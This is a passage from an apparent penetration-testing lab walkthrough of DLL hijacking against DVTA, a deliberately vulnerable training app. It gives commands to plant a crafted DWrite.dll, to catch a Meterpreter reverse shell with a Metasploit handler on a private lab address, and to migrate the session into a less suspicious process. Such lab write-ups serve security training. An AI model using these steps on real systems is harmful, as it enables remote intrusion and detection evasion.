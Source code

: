 Place the DLL crafted file into the same folder than the application. In my case I will place DWrite.dll into 

```
C:\Users\admin\Desktop\tools\original
```

In the Kali machine, start metasploit and set a handler:

```bash
msfconsole
```

```msf
use exploit/multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
set LPORT 4444
run
```

Now you can start the application in the windows machine, and on the listener handler in kali, you will get a meterpreter. 

#### 4. Moving your meterpreter to a different process

List all processes in the meterpreter and migrate to a less suspicious one. This will also unblock the DVTA app in the windows machine:

```
ps
migrate <ID>
```


## How to connect to a database after getting the credentials


![graphic](../img/tca-49.png)


